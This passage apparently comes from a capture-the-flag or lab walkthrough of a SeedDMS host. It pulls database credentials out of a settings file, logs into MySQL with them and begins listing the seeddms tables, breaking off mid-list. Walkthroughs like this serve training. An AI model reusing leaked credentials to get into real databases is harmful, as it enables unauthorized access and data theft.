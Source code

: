 Ah this gives us a db connection string/creds
```
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">
    </database>
    
backupDir="/var/www/html/seeddms51x/data/backup/"
```

Lets see if the credentials work:
```
mysql -h 192.168.1.xxx -u seeddms -p
```
Password: `seeddms`
```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 21
Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
We get a connection. Lets see what databases are available.
```
show databases;
```
```
MySQL [(none)]> MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
5 rows in set (0.004 sec)
```

Lets start with the seeddms db first and show us them tables.
```
connect seeddms;
show tables;
```
```
MySQL [seeddms]> show tables;
+------------------------------+
| Tables_in_seeddms            |
+------------------------------+
| tblACLs                      |
| tblAttributeDefinitions      |
| tblCategory                  |
| tblDocumentApproveLog        |
| tblDocumentApprovers         |
| tblDocumentAttributes        |
| tblDocumentCategory          |
| tblDocumentContent           |
| tblDocumentContentAttributes |
| tblDocumentFiles             |
| tblDocumentLinks             |
| tblDocumentLocks             |
| tblDocumentReviewLog         |
| tblDocumentReviewers         |
| tblDocumentStatus            |
```